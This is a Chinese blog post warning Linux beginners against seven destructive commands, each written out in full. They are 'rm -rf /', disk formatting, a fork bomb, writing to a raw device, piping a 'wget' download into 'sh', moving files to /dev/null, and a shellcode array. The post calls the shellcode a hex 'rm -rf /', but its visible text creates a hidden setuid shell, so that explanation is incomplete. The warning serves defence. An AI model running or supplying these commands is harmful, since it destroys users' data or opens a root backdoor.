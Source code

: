 Title: 7 个致命的 Linux 命令
Date: 2008-11-21 10:04
Author: toy
Category: Cli
Tags: Commands
Slug: the-7-deadly-linux-commands

如果你是一个 Linux 新手，在好奇心的驱使下，可能会去尝试从各个渠道获得的命令。以下是 7 个致命的 Linux 命令，轻则使你的数据造成丢失，重则使你的系统造成瘫痪，所以，你应当竭力避免在系统中运行它们。

<!-- PELICAN_END_SUMMARY -->

1.  `rm -rf /`

    此命令将递归并强制删除 / 目录下的所有文件。

2.  `char esp[] __attribute__ ((section(".text"))) /* e.s.p
        release */
        = "\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68"
        "\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99"
        "\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7"
        "\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56"
        "\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31"
        "\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69"
        "\x6e\x2f\x73\x68\x00\x2d\x63\x00"
        "cp -p /bin/sh /tmp/.beyond; chmod 4755
        /tmp/.beyond;";`

    这是 rm -rf / 的 hex（十六进制）版本，很能迷惑 Linux 用户。

3.  `mkfs.ext3 /dev/sda`

    这将对硬盘进行重新格式化，自然，硬盘上的所有数据将灰飞烟灭。

4.  `:(){ :|:& };:`

    著名的 fork 炸弹，此命令将告诉你的系统执行海量的进程，直到你的系统僵死。

5.  `any_command > /dev/sda`

    使用该命令，原始数据将被写到块设备，其结果是造成数据丢失。

6.  `wget http://some_untrusted_source -O- | sh`

    不要从不信任的地方下载东西，这可能会获取恶意代码。

7.  `mv /home/yourhomedirectory/* /dev/null`

    此命令将移动主目录中的所有文件到一个不存在的地方，你将再也看不到那些文件。

如果你认为还有其他致命的 Linux 命令，那么请在留言中告诉我们。

[via [TECH SOURCE FROM BOHOL](http://www.junauza.com/2008/11/7-deadly-linux-commands.html)]

